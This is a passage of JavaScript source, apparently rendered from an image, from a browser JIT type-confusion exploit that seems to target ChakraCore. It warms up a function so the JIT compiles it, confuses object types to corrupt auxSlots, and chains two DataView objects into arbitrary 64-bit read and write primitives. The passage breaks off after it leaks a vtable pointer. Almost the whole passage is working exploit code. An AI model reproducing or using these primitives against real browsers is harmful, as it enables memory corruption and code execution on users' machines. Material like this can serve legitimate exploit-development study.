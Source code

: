 ```html
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getInt32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getInt32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);       // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);       // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
```